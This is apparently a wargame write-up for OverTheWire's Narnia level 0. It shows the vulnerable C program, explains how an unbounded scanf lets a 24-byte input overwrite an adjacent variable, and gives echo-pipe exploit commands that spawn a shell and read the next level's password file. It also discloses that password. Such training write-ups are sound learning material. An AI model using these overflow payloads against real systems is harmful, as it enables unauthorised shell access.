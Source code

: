 # Narnia 0

Password: `narnia0`

The C code is as follows (stripped license for brevity):

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

`Scanf` is not bounds checked, the two buffers `val` and `buf` are right next to each other. By crafting a string that overflows the bounds of `buf`, we can overwrite `val` - this can be simply tested by entering a string 24 characters long: the final four will replace the contents of Val (if you enter 23 characters, you will see the null byte 00, which terminates the string, overriding the first position of the val variable (as numbers on this architecture are rendered backwards)).

I ran into two problems at this point. First, copying and pasting non-printable or extended ASCII characters didn't work. deadbeef is the bytes 0xEF, 0xBE, 0xAD and 0xDE (remember its backwards), which corresponds to the extended ASCII values `▐¡╛∩`. But after trying to get those into the application, they always ended up mangled.

The solution was to use unix piping, never letting the characters be read or printed via the screen. I got a hint for this so can't take too much credit, particularly the use of `echo -e` to evaluate escape sequences: this command will feed the right data:

`echo -e "01234567890123456789\xef\xbe\xad\xde" | /narnia/narnia0`

However, the shell immediately closes; looking at the code it starts the shell system op, but then that op is immediately disposed when the program exits in the next instruciton.

The fix to get past this is to pass `cat` through in the pipe as well, keeping the shell open until cat exits:

`{ echo -e "01234567890123456789\xef\xbe\xad\xde"; cat; } | /narnia/narnia0`

Once executing the above, even though no prompt is shown, you can `cat /etc/narnia_pass/narnia1` to get the password for narnia1, `efeidiedae`

Why does cat work like this? I don't know; passing `cat /etc/narnia_pass/narnia1` directly instead of cat fails with permission denied: the process closes before the second cat command is executed. Passing cat by itself however seems to keep the process open, and of course the way cat works if no arguments are passed is that it reads from standard input and echoes, kind of creating a mini shell over the inner shell.